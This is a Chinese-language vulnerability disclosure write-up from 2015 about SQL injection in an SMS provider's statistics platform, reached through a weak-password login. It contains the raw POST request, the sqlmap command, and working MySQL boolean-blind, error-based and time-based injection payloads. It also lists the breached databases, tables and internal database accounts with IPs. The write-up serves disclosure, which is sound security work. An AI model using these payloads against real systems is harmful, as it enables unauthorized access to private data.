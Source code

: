 # 某平台SQL注入影响数十万企业

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 1. 漏洞入口

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true
```

保存为`header`文件，使用`sqlmap`跑下。

`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 2. 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据

```
Database: mos_gsms2_1
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 3. 漏洞影响

![](images/v_xuanwu_01.gif)
![](images/v_xuanwu_02.gif)
![](images/v_xuanwu_03.gif)
![](images/v_xuanwu_04.png)
![](images/v_xuanwu_05.png)
![](images/v_xuanwu_06.png)
![](images/v_xuanwu_07.png)
![](images/v_xuanwu_08.jpg)

从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
